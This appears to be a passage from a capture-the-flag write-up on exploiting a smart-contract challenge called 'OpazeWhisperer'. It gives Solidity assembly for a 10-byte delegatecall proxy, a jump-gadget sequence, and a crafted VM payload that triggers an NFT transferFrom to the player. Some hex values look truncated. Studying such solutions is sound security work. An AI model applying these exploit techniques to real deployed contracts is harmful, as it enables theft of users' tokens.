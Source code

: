 Key requirements:
1. Caller must be a contract
2. Caller's code size must be ≤ 10 bytes
3. Bytes at offset 8-9 are used as a jump target

### Building the Exploit

The attack requires a specific sequence of jumps and operations:

1. Set up the minimal proxy contract (≤10 bytes):
```solidity
contract Proxy {
   constructor() {
       assembly {
           mstore(0, 0x5F5F5F5F335aF400414100000000000000000000000000000000000000000000)    // gas caller push0 push0 push0 push0 delegatecall
           mstore8(8, 0x06)    // offset for initial jump
           mstore8(9, 0x60)
           return(0, 10)
       }
   }
}
```

2. Execute the jump sequence:
   - Initial call includes a callvalue of 0x02D4 (target for final VM execution)
   - Delegate call transfers execution to OpazeWhisperer
   - Jump to 0x660 gadget for memory initialization
   - Gadget stores 1 at memory location 0x1337
   - Use CALLVALUE (0x02D4) to jump to VM entry point
   - Begin VM instruction execution with prepared calldata

3. Construct VM instructions for NFT transfer:
```solidity
bytes memory payload = bytes.concat(
    data,    // "play(string)" with "answer"
    hex"00000000000000000000000000000000000000000000000000000000",  // padding
    
    // VM instruction sequence:
    hex"11020080",    // Push operation
    hex"11020000",    // Push operation
    hex"11020000",    // Push operation
    hex"1114", abi.encodePacked(address(PLAYER)),    // Push player address
    
    // Build transferFrom call
    hex"33", hex"23b872dd000000000000000000000000769f3e5057b43b0d511065ed74df982e",    // Store opcode
    hex"33", hex"9134da9c000000000000000000000000d2d86433d89c204bf5f2451bbc98175a",    // Store opcode
    hex"33", hex"1fc4cd6900000000000000000000000000000000000000000000000000000000",    // Store opcode
    hex"33", hex"00000001fffffff1000000010000000100000001000000010000000100000001",    // Store opcode
    
    hex"22"    // Call operation
);
```
